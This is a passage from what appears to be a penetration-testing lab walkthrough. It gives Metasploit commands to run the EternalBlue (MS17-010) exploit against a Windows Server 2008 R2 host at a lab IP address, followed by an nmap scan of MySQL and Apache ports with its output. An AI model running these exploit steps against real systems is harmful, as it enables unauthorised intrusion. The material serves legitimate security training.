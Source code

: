 - *If no account credentials can be found*, use the **EternalBlue vulnerability** exploit since the system target is a Win Server 2008 R2

```bash
msfconsole -q
```

```bash
use exploit/windows/smb/ms17_010_eternalblue
options
set RHOSTS 10.2.26.45
run
```

![](.gitbook/assets/image-20230424122329479.png)

### MySQL

```bash
nmap -sV -sC -p 3306,8585 10.2.26.45
```

```bash
3306/tcp open  mysql   MySQL 5.5.20-log
8585/tcp open  http    Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
```
